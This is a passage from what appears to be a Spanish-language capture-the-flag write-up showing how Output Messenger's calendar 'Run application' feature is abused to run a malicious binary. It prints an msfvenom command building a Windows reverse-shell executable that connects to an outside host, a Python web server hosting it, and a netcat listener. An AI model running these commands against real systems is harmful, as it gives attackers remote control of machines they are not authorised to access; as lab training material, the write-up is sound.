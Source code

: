 #### Running a malicious binary to get a Reverse Shell with a Calendar "Run application" function on Output Messenger

Revisando las funciones de la aplicación, nos encontramos que a través de crear un nuevo evento en el calendario, eramos capaces de ejecutar una aplicación.

<figure><img src="../../../.gitbook/assets/imagen (25).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, lo que se probó a realizar es a crear un payload malicioso de una Reverse Shell. En este caso se utilizó `msfvenom` para crear un binario `.exe` malicioso que al ejecutarse nos proporcionaría una Reverse Shell. Compartiremos este binario malicioso a través de un servidor web.

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde otra terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```
